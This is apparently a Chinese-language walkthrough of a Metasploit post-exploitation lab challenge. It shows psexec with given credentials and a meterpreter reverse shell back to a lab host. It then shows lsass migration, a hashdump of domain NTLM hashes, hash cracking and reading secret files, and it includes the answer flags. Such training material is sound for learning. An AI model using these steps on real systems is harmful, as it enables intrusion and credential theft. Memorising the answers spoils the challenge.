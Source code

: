 # Matesploit 漏洞利用后 挑战

以下问题将帮助您更好地了解如何在开发后使用 Meterpreter。

您可以使用以下凭据来模拟通过 SMB（服务器消息块）的初始入侵（使用 exploit/windows/smb/psexec）

Username: ballen

Password: Password1

<pre><font color="#49AEE6">&lt; metasploit &gt;</font>
<font color="#49AEE6"> ------------</font>
<font color="#49AEE6">       \   ,__,</font>
<font color="#49AEE6">        \  (oo)____</font>
<font color="#49AEE6">           (__)    )\</font>
<font color="#49AEE6">              ||--|| *</font>
</pre>

<pre><u style="text-decoration-style:single">msf6</u> &gt; nmap -sS 10.10.214.4
<font color="#277FFF"><b>[*]</b></font> exec: nmap -sS 10.10.214.4

Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-08 19:30 CST
Nmap scan report for 10.10.214.4 (10.10.214.4)
Host is up (0.23s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
</pre>

<pre><u style="text-decoration-style:single">msf6</u> &gt; use exploit/windows/smb/psexec 
<font color="#277FFF"><b>[*]</b></font> No payload configured, defaulting to windows/meterpreter/reverse_tcp
</pre>

<pre><u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>windows/smb/psexec</b></font>) &gt; set rhosts 10.10.214.4
rhosts =&gt; 10.10.214.4
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>windows/smb/psexec</b></font>) &gt; set lhost 10.14.39.48
lhost =&gt; 10.14.39.48
</pre>

<pre><u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>windows/smb/psexec</b></font>) &gt; set smbuser ballen
smbuser =&gt; ballen
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>windows/smb/psexec</b></font>) &gt; set smbpass Password1
smbpass =&gt; Password1
<u style="text-decoration-style:single">msf6</u> exploit(<font color="#EC0101"><b>windows/smb/psexec</b></font>) &gt; run
</pre>

meterpreter> getuid ,发现是：

    Server username: NT AUTHORITY\SYSTEM

#### 1.计算机名称是什么？

<pre><u style="text-decoration-style:single">meterpreter</u> &gt; sysinfo
Computer        : ACME-TEST
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 8
Meterpreter     : x86/windows
</pre>

ACME-TEST

#### 2.目标域是什么？

    从上一问处得知，FLASH

#### 3.用户可能创建的共享的名称是什么？

<pre><u style="text-decoration-style:single">msf6</u> post(<font color="#EC0101"><b>windows/gather/enum_shares</b></font>) &gt; run

<font color="#277FFF"><b>[*]</b></font> Running module against ACME-TEST (10.10.214.4)
<font color="#277FFF"><b>[*]</b></font> The following shares were found:
<font color="#277FFF"><b>[*]</b></font> 	Name: SYSVOL
<font color="#277FFF"><b>[*]</b></font> 	Path: C:\Windows\SYSVOL\sysvol
<font color="#277FFF"><b>[*]</b></font> 	Remark: Logon server share 
<font color="#277FFF"><b>[*]</b></font> 	Type: DISK
<font color="#277FFF"><b>[*]</b></font> 
<font color="#277FFF"><b>[*]</b></font> 	Name: NETLOGON
<font color="#277FFF"><b>[*]</b></font> 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
<font color="#277FFF"><b>[*]</b></font> 	Remark: Logon server share 
<font color="#277FFF"><b>[*]</b></font> 	Type: DISK
<font color="#277FFF"><b>[*]</b></font> 
<font color="#277FFF"><b>[*]</b></font> 	Name: speedster
<font color="#277FFF"><b>[*]</b></font> 	Path: C:\Shares\speedster
<font color="#277FFF"><b>[*]</b></font> 	Type: DISK
<font color="#277FFF"><b>[*]</b></font> 
<font color="#277FFF"><b>[*]</b></font> Post module execution completed
</pre>

前两个Remark: Logon server share，故第三个 speedster

#### 4.jchambers 用户的 NTLM 哈希是什么？

直接hashdump 无权访问。

    在内网渗透进行横向移动和权限提升时，最常用的方法是通过dump进程lsass.exe，
    从中获得明文口令或者hash。lsass.exe（Local Security Authority Subsystem Service）是一个系统进程，
    用于微软Windows系统的安全机制，它用于本地安全和登陆策略。在进程空间中，
    存有着机器的域、本地用户名和密码等重要信息。但是需要首先获得一个高的权限才能对其进行访问。

ps查看进程表，迁移至lsass进程：

<pre><u style="text-decoration-style:single">meterpreter</u> &gt; migrate 764
<font color="#277FFF"><b>[*]</b></font> Migrating from 2868 to 764...
<font color="#277FFF"><b>[*]</b></font> Migration completed successfully.
</pre>

此时再输入hashdump:

<pre><u style="text-decoration-style:single">meterpreter</u> &gt; hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:ade6f690c69ea738af21a4dc2df4adf7:::
</pre>

69596c7aa1e8daee17f8e78870e25a5c

#### 5.jchambers用户的明文密码是什么？

随便找个撞库在线网站，得到：Trustno1

#### 6.“秘密.txt”文件位于何处？

<pre><u style="text-decoration-style:single">meterpreter</u> &gt; search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 15:44:27 +0800
</pre>

C:\Program Files (x86)\Windows Multimedia Platform\

#### 7.“秘密.txt”文件中透露的推特密码是什么？

<pre><u style="text-decoration-style:single">meterpreter</u> &gt; shell
Process 3552 created.
Channel 1 created.
</pre>

<pre>C:\Windows\system32&gt;type C:\Program Files (x86)\Windows Multimedia Platform\secrets.txt
</pre>

My Twitter password is KDSvbsw3849!

#### 8.“realsecret.txt”文件在哪里？

<pre>c:\Program Files (x86)\Windows Multimedia Platform&gt;exit
exit
<u style="text-decoration-style:single">meterpreter</u> &gt; search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 16:30:24 +0800
</pre>

c:\inetpub\wwwroot\

#### 9.真正的秘密是什么？

<pre>c:\Program Files (x86)\Windows Multimedia Platform&gt;exit
exit
<u style="text-decoration-style:single">meterpreter</u> &gt; search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 16:30:24 +0800

<u style="text-decoration-style:single">meterpreter</u> &gt; cat c:\inetpub\wwwroot\realsecret.txt
<font color="#EC0101"><b>[-]</b></font> stdapi_fs_stat: Operation failed: The system cannot find the file specified.
<u style="text-decoration-style:single">meterpreter</u> &gt; cat c:\\inetpub\\wwwroot\\realsecret.txt
The Flash is the fastest man alive</pre>

The Flash is the fastest man alive
